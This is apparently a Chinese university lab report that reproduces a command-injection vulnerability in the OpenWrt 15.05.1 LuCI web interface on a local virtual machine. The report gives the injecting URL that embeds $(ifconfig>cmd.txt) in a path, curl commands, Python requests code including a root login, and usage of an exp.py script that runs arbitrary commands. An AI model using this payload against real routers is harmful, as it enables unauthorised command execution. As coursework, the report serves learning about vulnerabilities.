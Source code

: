 # 第四章 移动通信安全概述实验

---

## 实验要求

* 复现 CVE-2019-1227漏洞

* 编写一个漏洞利用程序

---

## 实验环境

* OpenWrt 15.05.1

---

## 实验过程

### 环境搭建

*  下载安装存在该漏洞的 OpenWrt 15.05.1 的镜像版本,参考[移动互联网安全第一章实验](https://c4pr1c3.github.io/cuc-mis/chap0x01/exp.html)搭建

* OpenWrt 15.05.1虚拟机明细界面

![](img/虚拟机配置.png)

* OpenWrt 15.05.1虚拟机网络配置

![](img/网络配置.png)

### 漏洞复现

1. 使用管理员账号登录 LuCI

    * 登录界面

    ![](img/登录界面.png)

    * 登录后详细信息

    ![](img/详细界面.png)

2. 使用浏览器访问 `http://192.168.56.123/cgi-bin/luci/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt)` 触发漏洞

![](img/触发漏洞.png)

3. 访问 `http://192.168.56.123/cmd.txt`看到漏洞复现效果

![](img/获取结果.png)

### 漏洞利用

1. 通过 Chrome 浏览器开发者工具的 `Copy as curl` 功能，将漏洞复现请求复制为 curl 命令

![](img/复制漏洞利用请求.png)

```
curl 'http://192.168.56.123/cgi-bin/luci/;stok=70876e68e5b961addd85f72368c3c82a/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  -H 'Cookie: sysauth=1544dc8df6ee151bdc8816bbef2dced1' \
  --compressed \
  --insecure
```

2. 通过[第三方网站](https://curl.trillworks.com/)将 curl 命令转换为 `Python requests` 代码

![](img/转换代码.png)

```
import requests

cookies = {
    'sysauth': '1544dc8df6ee151bdc8816bbef2dced1',
}

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

response = requests.get('http://192.168.56.123/cgi-bin/luci/;stok=70876e68e5b961addd85f72368c3c82a/admin/status/realtime/bandwidth_status/eth0$(ifconfig%3ecmd.txt', headers=headers, cookies=cookies, verify=False)
```

3. 重新登录，获取漏洞重放所需的 `luci_username / luci_password` 的参数信息，同样转化为 Python request 代码

![](img/复制登录信息.png)

* curl命令

```
curl 'http://192.168.56.123/cgi-bin/luci' \
  -H 'Connection: keep-alive' \
  -H 'Pragma: no-cache' \
  -H 'Cache-Control: no-cache' \
  -H 'Upgrade-Insecure-Requests: 1' \
  -H 'Origin: http://192.168.56.123' \
  -H 'Content-Type: application/x-www-form-urlencoded' \
  -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36' \
  -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9' \
  -H 'Referer: http://192.168.56.123/cgi-bin/luci' \
  -H 'Accept-Language: zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7' \
  --data-raw 'luci_username=root&luci_password=' \
  --compressed \
  --insecure
```

* `Python requests` 代码

```
import requests

headers = {
    'Connection': 'keep-alive',
    'Pragma': 'no-cache',
    'Cache-Control': 'no-cache',
    'Upgrade-Insecure-Requests': '1',
    'Origin': 'http://192.168.56.123',
    'Content-Type': 'application/x-www-form-urlencoded',
    'User-Agent': 'Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/89.0.4389.114 Safari/537.36',
    'Accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9',
    'Referer': 'http://192.168.56.123/cgi-bin/luci',
    'Accept-Language': 'zh-CN,zh;q=0.9,en-US;q=0.8,en;q=0.7',
}

data = {
  'luci_username': 'root',
  'luci_password': ''
}

response = requests.post('http://192.168.56.123/cgi-bin/luci', headers=headers, data=data, verify=False)
```

4. 漏洞利用代码[exp.py](exp.py)

5. 在命令行中执行`python exp.py ifconfig`，命令行输出结果如下:

![](img/ifconfig.png)

6. 在命令行中执行`python exp.py id` 并使用网页访问`http://192.168.56.123/cmd.txt` ，漏洞已经实现

![](img/id.png)

---

## 参考资料

[CVE_2019_12272](https://c4pr1c3.gitee.io/cuc-mis/chap0x04/cve-2019-12272.html)

[移动互联网安全（2021）视频](https://www.bilibili.com/video/BV1rr4y1A7nz?p=100&spm_id_from=pageDriver)

[shiancuc的chap0x04实验报告](https://github.com/CUCCS/2021-mis-public-shiancuc/tree/mis_chap0x04/chap0x04)

[ididChan的chap0x04实验报告](https://github.com/CUCCS/2021-mis-public-ididChan/blob/chap0x04/chap0x04/report/report0x02.md)
